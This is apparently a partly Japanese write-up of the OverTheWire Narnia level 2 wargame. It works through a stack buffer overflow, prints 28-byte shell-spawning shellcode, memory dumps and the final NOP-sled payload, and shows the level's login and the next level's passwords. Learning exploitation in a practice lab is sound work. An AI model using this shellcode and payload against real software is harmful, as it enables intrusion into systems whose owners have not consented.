$ ssh -p 2226 narnia2@narnia.labs.overthewire.org
nairiepecu

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80 28bytes

./narnia2 $(python -c 'print "A" * 140')
140文字でオーバーフロー

0xffffc200: 0x6c657665  0x616e2f32  0x61696e72  0x41410032
0xffffc210: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc220: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc230: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc240: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc250: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc260: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc270: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc280: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc290: 0x41414141  0x41414141  0x44004141  0x5f535542
0xffffc2a0: 0x53534553  0x5f4e4f49  0x5f535542  0x52444441
0xffffc2b0: 0x3d535345  0x78696e75  0x7362613a  0x63617274

$(python -c 'print "\x90"\*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x60\xc2\xff\xff"')


## In remote
0xffffd860: 0x696e7261  0x41003261  0x41414141  0x41414141
0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8c0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8d0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8e0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8f0: 0x41414141  0x45485300  0x2f3d4c4c  0x2f6e6962

リモードでアドレスを確認
$(python -c 'print "\x90"\*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90\xd8\xff\xff"')

narnia2@narnia:/etc/narnia_pass$ /narnia/narnia2 $(python -c 'print "\x90"\*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90\xd8\xff\xff"')
$ cat narnia3
vaequeezee


NOP sledと呼ばれるテクニック。（NOPスライド、NOPの集合をNOPスレッドとも）
NOPの集合のどこかしらに遷移させればあとはNOPの命令をスライドしていき、最終的にシェルコードが実行される。
